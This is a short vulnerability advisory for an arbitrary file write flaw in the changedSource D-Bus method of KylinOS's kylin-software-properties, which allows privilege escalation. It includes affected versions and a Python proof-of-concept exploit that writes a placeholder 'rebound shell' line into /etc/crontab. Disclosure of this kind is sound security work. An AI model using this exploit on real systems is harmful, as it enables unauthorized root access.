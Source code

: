 # Kylin OS kylin-software-properties arbitrary file write vuln

Author: Set3r.Pan（8691003@qq.com）\
Unit: KylinSoft（https://www.kylinos.cn/）
## Report
### Describe
kylin-software-properties is a component on KylinOS Desktop for setting system software properties. There is an arbitrary file writing vulnerability in the changedSource function of this component, which can lead to privilege escalation for ordinary users.
### Hazard level
High
### Affected version
- V10SP1：kylin-software-properties < 0.0.1-134
- V10：kylin-software-properties < 0.0.1-134
### POC&&EXP
ISO Download:\
https://distro-images.kylinos.cn:8802/web_pungi/download/share/HXDYtGjZm3daA4UvOTLkiPl1nB9ErM0c/

exploit.py
```
#!/usr/bin/env python3

import sys
import dbus
import os

def change_source(old, new, target):
    bus = dbus.SystemBus()
    obj = bus.get_object("com.kylin.software.properties", "/com/kylin/software/properties")
    proxy = dbus.Interface(obj, "com.kylin.software.properties.interface")
    print(proxy.changedSource([old, new, target]))

change_source("#", "rebound shell", "/etc/crontab")
os.system("grep -rn 'rebound shell' /etc/crontab")
```
